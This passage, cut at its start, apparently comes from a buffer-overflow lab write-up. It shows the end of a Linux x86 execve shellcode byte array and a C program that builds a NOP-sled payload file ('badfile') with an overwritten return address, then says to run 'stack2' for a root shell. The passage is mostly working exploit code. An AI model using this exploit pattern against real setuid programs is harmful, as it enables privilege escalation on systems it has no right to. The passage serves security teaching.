    "\x89\xe3"      // movl    %esp, %ebx
    "\x50"          // pushl   %eax
    "\x53"          // pushl   %ebx
    "\x89\xe1"      // movl    %esp, %ecx
    "\x99"          // cdq
    "\xb0\x0b"      // movb    $0x0b, %al
    "\xcd\x80"      // int     $0x80
;

void main()
{
    char buffer[517];
    FILE *badfile;

    // Initialize buffer with 0x90 (NOP instruction)
    memset(&buffer, 0x90, 517);

    printf("len shellcode: %zu\n", sizeof(shellcode));
    printf("buffer: %p\n", (void *)buffer);

    // Put the return address at the beginning of the NOP instructions, but after the return address.
    *((long *)(buffer + 0x36)) = buffer + 0x80;

    memcpy(buffer + 517 - sizeof(shellcode), shellcode, sizeof(shellcode));

    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```

And then gain access to a root shell by running the `stack2` program.


